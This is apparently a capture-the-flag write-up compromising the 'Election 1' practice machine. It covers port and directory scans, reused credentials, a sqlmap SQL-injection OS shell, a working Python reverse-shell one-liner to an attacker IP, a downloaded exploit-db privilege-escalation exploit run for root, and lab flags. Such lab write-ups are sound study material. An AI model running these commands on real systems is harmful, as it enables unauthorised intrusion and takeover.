 ```yaml
---
title: Election 1
categories: [Proving Grounds Play]
tags: [CMS, Public Exploit, SUIDs, Sqlmap, election 2, PrivEsc]
image:
  path: /Vulnhub-Files/img/Election-1/Untitled%202.png
  alt:  Election 1 Machine 🖥️
---
```


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Election-1/Untitled.png)

```bash
IP : 10.0.2.53
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Electron]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.53
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 14:19 IST
Nmap scan report for 10.0.2.53
Host is up (0.0017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20d1ed84cc68a5a786f0dab8923fd967 (RSA)
|   256 7889b3a2751276922af98d27c108a7b9 (ECDSA)
|_  256 b8f4d661cf1690c5071899b07c70fdc0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:BA:FC:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%201.png)

Lets check for directory listing —>

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Electron]
└─$ feroxbuster -u http://10.0.2.53:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,log   

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.9.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.0.2.53:80/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 💢  Status Code Filters   │ [403, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.9.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💾  Output File           │ ferox_80.json
 💲  Extensions            │ [php, html, txt, log]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l        -w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      375l      964w    10918c http://10.0.2.53/
200      GET      375l      964w    10918c http://10.0.2.53/index.html
301      GET        9l       28w      311c http://10.0.2.53/javascript => http://10.0.2.53/javascript/
200      GET        4l        4w       30c http://10.0.2.53/robots.txt
301      GET        9l       28w      309c http://10.0.2.53/election => http://10.0.2.53/election/
301      GET        9l       28w      315c http://10.0.2.53/election/media => http://10.0.2.53/election/media/
301      GET        9l       28w      316c http://10.0.2.53/election/themes => http://10.0.2.53/election/themes/
301      GET        9l       28w      314c http://10.0.2.53/election/data => http://10.0.2.53/election/data/
301      GET        9l       28w      315c http://10.0.2.53/election/admin => http://10.0.2.53/election/admin/
301      GET        9l       28w      313c http://10.0.2.53/election/lib => http://10.0.2.53/election/lib/
301      GET        9l       28w      319c http://10.0.2.53/election/languages => http://10.0.2.53/election/languages/
301      GET        9l       28w      312c http://10.0.2.53/election/js => http://10.0.2.53/election/js/
200      GET        1l      215w     1935c http://10.0.2.53/election/card.php
301      GET        9l       28w      311c http://10.0.2.53/phpmyadmin => http://10.0.2.53/phpmyadmin/
200      GET       26l      359w    10531c http://10.0.2.53/phpmyadmin/index.php
301      GET        9l       28w      318c http://10.0.2.53/phpmyadmin/themes => http://10.0.2.53/phpmyadmin/themes/
200      GET       26l      359w    10532c http://10.0.2.53/phpmyadmin/themes.php
401      GET       14l       54w      456c http://10.0.2.53/phpmyadmin/setup
200      GET       26l      359w    10535c http://10.0.2.53/phpmyadmin/db_search.php
[####################] - 5m   5513650/5513650 0s      found:19      errors:970056 
[####################] - 4m   1102730/1102730 4038/s  http://10.0.2.53:80/ 
[####################] - 4m   1102730/1102730 3792/s  http://10.0.2.53/ 
[####################] - 5m   1102730/1102730 3427/s  http://10.0.2.53/javascript/ 
[####################] - 4m   1102730/1102730 4141/s  http://10.0.2.53/election/ 
[####################] - 3m   1102730/1102730 5284/s  http://10.0.2.53/phpmyadmin/
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%202.png)

Now lets check these files from directory traversal → `/card.php` file

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%203.png)

Now lets decode this text →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%204.png)

Now I got a credentails →

```bash
user:1234
pass:Zxc123!@#
```

Lets us this credentails to log into the `/election/admin` →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%205.png)

Now After recon on web I got an exploit about the election 2.0 →

[https://www.exploit-db.com/exploits/48122](https://www.exploit-db.com/exploits/48122)

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%206.png)

Now lets follow this path —>

Lets see for sqli →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%207.png)

Lets add a candidate and then Intercept the candidate option →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%208.png)

Now let’s save the request into a text file →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%209.png)

Now lets run sqlmap →

```bash
sqlmap -r request.txt --level=5 --risk=3 --os-shell -p id
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2010.png)

Now lets run this reverse shell code of python →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2011.png)

Now lets check the response with nc →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2012.png)

Now I got a reverse shell →

```bash
www-data@election:/var/www/html/election/admin/logs$ cat sys	
cat system.log 
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-05-10 15:40:18] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-05-10 16:10:49] Love added candidate 'Test'.
www-data@election:/var/www/html/election/admin/logs$
```

Lets switch to love user →

```bash
love@election:~$ cd Desk	
cd Desktop/
love@election:~/Desktop$ ls
ls
user.txt
love@election:~/Desktop$  cat user.txt
 cat user.txt
cd38ac698c0d793a5236d01003f692b0
love@election:~/Desktop$
```

Now lets check the SUIDs files →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2013.png)

Now I looked into web for more recon purpose →

[https://www.exploit-db.com/exploits/47009](https://www.exploit-db.com/exploits/47009)

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2014.png)

Lets transfer it to the victim machine →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2015.png)

```bash
love@election:/usr/local/Serv-U$ cd /tmp   
cd /tmp
love@election:/tmp$ ls
ls
love@election:/tmp$ wget https://www.exploit-db.com/download/47009
wget https://www.exploit-db.com/download/47009
--2023-05-10 17:08:36--  https://www.exploit-db.com/download/47009
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [application/txt]
Saving to: ‘47009’

47009               100%[===================>]     619  --.-KB/s    in 0s      

2023-05-10 17:08:37 (109 MB/s) - ‘47009’ saved [619/619]

love@election:/tmp$ ls -al
ls -al
total 12
drwxrwxrwt  2 root root 4096 May 10 17:08 .
drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
-rw-rw-r--  1 love love  619 May 10 17:08 47009
love@election:/tmp$ chmod +x 47009
chmod +x 47009
love@election:/tmp$ mv 47009 exploit.c
mv 47009 exploit.c
love@election:/tmp$ ls
ls
exploit.c
love@election:/tmp$ gcc exploit.c -o pe && ./pe
gcc exploit.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
whoami
root
# /bin/bash -i
/bin/bash -i
root@election:/tmp# cd /root
cd /root
root@election:/root# ls -al
ls -al
total 44
drwx------  6 root root 4096 May 10 14:13 .
drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
-rw-------  1 root root   66 May 27  2020 .bash_history
drwx------  3 root root 4096 Apr  8  2020 .cache
drwx------  5 root root 4096 May 27  2020 .config
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Apr  9  2020 root.txt
-rw-r--r--  1 root root   66 Apr  2  2020 .selected_editor
-rw-r-----  1 root root    5 May 10 14:14 .vboxclient-display-svga.pid
root@election:/root# cat root.txt
cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6
root@election:/root#
```
